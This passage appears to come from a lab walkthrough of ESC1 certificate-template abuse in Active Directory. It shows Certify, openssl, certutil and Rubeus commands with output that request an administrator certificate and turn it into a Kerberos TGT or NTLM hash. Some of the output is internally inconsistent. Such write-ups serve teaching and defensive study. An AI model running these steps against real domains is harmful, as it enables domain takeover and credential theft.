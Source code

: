 **⚠️ Important:** For accuracy and to avoid certificate mismatch issues, we should always aim to provide the `/sid` parameter which should be the SID of the user we are targeting (administrator in this case).

```bash
Certify.exe request /ca:braavos.essos.local\ESSOS-CA /template:ESC1 /altname:essos\administrator /sid:S-1-5-21-1394808576-3393508183-1134699666-500

[*] Action: Request a Certificates
[*] Current user context    : ESSOS\missandei
[*] No subject name specified, using current context as subject.

[*] Template                : ESC1
[*] Subject                 : CN=missandei, CN=Users, DC=essos, DC=local
[*] AltName                 : essos\administrator

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA

[*] CA Response             : The certificate has been issued.
[*] Request ID              : 7

[*] cert.pem                :
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA2hT8F6PSyEzGCq5VJXpF8rTQoYmZ9BNQ3T4Uy8F0aGF9ZLQW
...certificate data...
-----END CERTIFICATE-----

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Now let's convert to PFX format for use with Rubeus. There are two methods:

**Method 1: Using OpenSSL (cross-platform)**
```bash
openssl pkcs12 -in cert.pem -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out administrator.pfx
```

**Method 2: Using certutil (Windows native)**
```bash
# Save the private key and certificate to separate files
# cert.key (from -----BEGIN RSA PRIVATE KEY----- to -----END RSA PRIVATE KEY-----)
# cert.pem (from -----BEGIN CERTIFICATE----- to -----END CERTIFICATE-----)

# Then merge them with certutil
certutil -MergePFX .\cert.pem .\administrator.pfx
```

Use Rubeus to either request NTLM hash directly or get a Kerberos TGT:

```bash
# Get NTLM Hash directly
Rubeus.exe asktgt /user:administrator /certificate:administrator.pfx /getcredentials

# Or get TGT (traditional method)
Rubeus.exe asktgt /user:administrator /certificate:administrator.pfx /password:mimikatz

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Ask TGT
```